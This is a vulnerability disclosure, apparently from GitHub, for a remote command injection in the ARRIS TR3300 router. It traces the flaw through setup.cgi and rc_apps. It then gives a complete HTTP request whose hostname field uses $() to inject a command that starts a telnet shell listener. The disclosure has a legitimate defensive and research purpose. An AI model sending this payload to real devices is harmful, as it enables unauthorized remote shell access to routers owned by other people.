


# ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `dhcp` function(`wan_dyna.html`), `hostname` is directly passed by the attacker, so we can control the `hostname` to attack the OS.

<div  align="center"></div>

First, accept and process the content of the field(`wan_account`), and then call the function `nvram_set `to store this input.

<div  align="center"></div>

In `rc_apps` binary:

As you can see here, in `sub_1DE34` function, the initial input will be extracted.

<div  align="center"></div>

Eventually, in `sub_4079F8` function, the initial input will cause command injection.

<div  align="center"></div>

**Supplement**

BUT!!!!!

<div  align="center"></div>

<div  align="center"></div>

**When receiving user input, there are very strict checks. But we can use `$()`  to bypass it!**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"></div>


## PoC

We set `hostname` as **$(/usr/sbin/utelnetd -l /bin/sh -p 9999)**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 378
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_dyna.html
Upgrade-Insecure-Requests: 1

dhcpc_enable=&hostname=$(/usr/sbin/utelnetd -l /bin/sh -p 9999)&dyna_mtu=1500&itsbutton1=Apply&webpage=wan_dyna.html&action=Apply&wan_access=eth1&wan_proto=dhcp&et1macaddr=00%3A30%3ABD%3AF6%3AEE%3A94&m_wan_hostname=TR3300&m_autodns=1&pppoe_autodns=1&dhcp_autodns=1&m_wan_aliasip=&todo=save&h_dhcpc_enable=enable&todo=save&this_file=wan_dyna.html&next_file=wan_dyna.html&message=
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
